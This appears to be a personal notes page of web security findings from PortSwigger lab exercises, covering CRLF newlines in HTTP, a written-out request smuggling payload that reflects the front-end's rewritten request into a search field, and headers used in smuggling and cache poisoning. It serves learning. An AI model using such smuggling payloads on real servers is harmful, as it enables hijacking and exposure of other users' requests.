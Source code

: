 # Mad security findings

This is crazy stuff I found out in the wild. I will put here only the ones, which are the most crazy in my opinion and caused my brain to question reality. Most of those I found out during solving Portswigger’s Web security academy labs or another security sandbox labs.

### Newlines

Seems trivial, but keep in mind HTTP Requests must have **two(!!!)** additional newlines at the request ending. There may be cases when they must be present on smuggled requests. Newlines in HTTP requests are used the ones with carriage return `\r\n`.

Looks like, mostly, web-servers are dismissing requests which contain solely newline character without carriage return (just `\n`, not `\r\n`). However, this can be potentially interesting way to exploit webservers or topic to research. 

## Request Smuggling

When it comes to request smuggling, there is a way how to expose request modification done by frontend server (CT.TE request smuggling). For example consider following request:

```
POST / HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 251

0

POST / HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 260

search=POST /foo HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
```

This request expose request content into `search` param, which is then baked into outputting HTML. However the ending result is following:

```
0 search results for 'POST /foo HTTP/1.1
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
POST / HTTP/1.1
X-HEADER-AD: 11.155.222.156
Host: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 251

0
```

Request contains subsequent request, merged together. Wierd thing is, that it did not fail, because of double headers. **TODO: Investigate.**

### Interesting headers

Different curious headers are connected to request smuggling and cache poisoning. (They may be coming from underlying frameworks, etc.).

- [Location](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Location)
- [X-Forwarded-Host](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host)
- X-Forwarded-Scheme
- `X-Original-URL` - Coming from underlying ZEND framework (PHP Symphony is built upon this)
- The rest of `X-Forwarded ...` request headers.
